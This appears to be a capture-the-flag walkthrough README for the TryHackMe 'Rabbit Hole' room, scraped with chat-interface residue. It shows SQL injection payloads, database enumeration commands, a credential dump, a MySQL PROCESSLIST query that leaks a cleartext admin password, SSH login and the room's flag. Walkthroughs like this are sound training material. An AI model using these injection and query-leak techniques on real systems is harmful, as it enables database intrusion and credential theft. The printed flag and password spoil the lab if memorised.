✅ Final README.md After Conflict Resolution
markdown
Copy
Edit
# TryHackMe: Rabbit Hole Walkthrough — Full Exploit & Capture-the-Flag Guide

## 🔍 Challenge Overview

**Platform:** TryHackMe  
**Room Name:** Rabbit Hole  
**Category:** Web Exploitation, SQL Injection, Enumeration, Processlist Abuse  
**Difficulty:** Intermediate  

**Keywords for SEO:** tryhackme rabbit hole writeup, second-order sqli, processlist mysql exploit, ssh login sql injection, sql injection challenge solution, CTF walkthrough rabbit hole, information_schema processlist attack, MySQL md5 password capture, ethical hacking SQLi lab

> This is a complete, step-by-step professional walkthrough to solve the "Rabbit Hole" room on TryHackMe. It includes command-line tools, Python automation scripts, payloads, and final shell access to capture the flag.

---

## 🛠 Step 1: Initial Reconnaissance

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.173.12
Discovered Open Ports:

22/tcp (SSH)

80/tcp (HTTP)

Visit:

cpp
Copy
Edit
http://10.10.173.12
Identified login/register form and "Last Logins" feature reflecting usernames (possible injection point).

🧪 Step 2: SQL Injection Detection
Test Payload:

sql
Copy
Edit
' UNION SELECT 1;--
Error Response: Column mismatch confirms SQL injection is possible.

Working Payload:

sql
Copy
Edit
' UNION SELECT 1,2;--
This confirms 2 columns are expected.

🧬 Step 3: Extract Database Names
bash
Copy
Edit
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(schema_name) FROM information_schema.schemata'
Result:

Copy
Edit
information_schema,web
🗂 Step 4: Extract Table Names from web
bash
Copy
Edit
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="web"'
Tables Found: users, logins

🧱 Step 5: Extract Columns from users
bash
Copy
Edit
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema="web" AND table_name="users"'
Columns: id, username, password, group

🔐 Step 6: Dump User Data
bash
Copy
Edit
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users WHERE id<4'
Dumped:

ruby
Copy
Edit
1:admin:0e3ab8...:admin
2:foo:abc123:user
3:bar:iloveyou:user
👁️ Step 7: Monitor PROCESSLIST for Admin Password
Repeatedly run:

bash
Copy
Edit
python3 processlist_extractor.py 'http://10.10.173.12/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
Target Output Example:

sql
Copy
Edit
SELECT * FROM users WHERE username='admin' AND password=md5('fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q')
Extract the cleartext password inside the md5() function.

💻 Step 8: SSH Login as Admin
bash
Copy
Edit
ssh admin@10.10.173.12
Password:

nginx
Copy
Edit
fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q
🏁 Step 9: Capture the Flag
bash
Copy
Edit
ls
cat flag.txt
Flag:

Copy
Edit
THM{this_is_the_way_step_inside_jNu8uJ9tvKfH1n48}
🧰 Tools & Techniques Used
nmap, curl, Burp Suite

Manual SQL injection testing

information_schema enumeration

MySQL PROCESSLIST query leakage

Python scripting (requests, bs4)

📁 Included Scripts
sqli_automate2.py
Automates 16-character chunked SQL data extraction using SUBSTR.

processlist_extractor.py
Multi-threaded script to capture live SQL queries from MySQL information_schema.processlist.